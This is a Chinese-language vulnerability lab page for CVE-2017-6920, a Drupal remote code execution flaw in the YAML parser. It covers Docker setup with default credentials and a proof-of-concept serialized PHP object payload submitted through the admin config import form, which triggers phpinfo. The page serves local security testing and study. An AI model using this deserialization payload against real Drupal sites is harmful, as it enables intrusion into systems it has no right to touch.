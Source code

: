 ```yaml
---
layout: post
title: "Drupal PECL YAML parser 远程代码执行漏洞(CVE-2017-6920)"
date: 2017-06-29 23:57:35
image: '/assets/img/'
description: 'Drupal Core的YAML解析器处理不当所导致的一个远程代码执行漏洞。'
main-class: 'hole'
color: '#B31917'
tags:
- Drupal
- RCE
categories:
- Drupal
twitter_text: 'Drupal Core的YAML解析器处理不当所导致的一个远程代码执行漏洞。'
introduction: 'Drupal Core的YAML解析器处理不当所导致的一个远程代码执行漏洞。'
---
```


### 漏洞信息

Drupal是使用PHP语言编写的开源内容管理框架（CMF），它由内容管理系统（CMS）和PHP开发框架（Framework）共同构成。Drupal Core的YAML解析器处理不当所导致的一个远程代码执行漏洞。

### 影响版本

Drupal < 8.3.4

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/user/login | admin | admin123

### 获取环境:

1. 拉取镜像到本地
 ```
$ docker pull medicean/vulapps:d_drupal_1
 ```

2. 启动环境
 ```
$ docker run -d -p 8000:80 medicean/vulapps:d_drupal_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:8000 看到 Drupal 主界面代表启动成功


### POC

> 假如目标地址为： http://127.0.0.1:8000/

1.序列化一个`GuzzleHttp\Psr7\FnStream`类, 并给该序列化字符串加上yaml的`!php/object` tag(注意一定要转义):

```
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```

2.登录一个管理员账号，访问如下url: 

```
http://127.0.0.1:8000/admin/config/development/configuration/single/import
```

然后按下图所示填写表单：

![](https://github.com/Medicean/VulApps/raw/master/d/drupal/1/poc-1.png)

3.点击 `import` 后，触发：

![](https://github.com/Medicean/VulApps/raw/master/d/drupal/1/poc-2.png)

### Exp

> 待补充，欢迎分享

构造方法可参考：[CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](http://paper.seebug.org/334/)

### 相关链接

* [Drupal Core - Multiple Vulnerabilities - SA-CORE-2017-003](https://www.drupal.org/SA-CORE-2017-003)
* [CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](http://paper.seebug.org/334/)
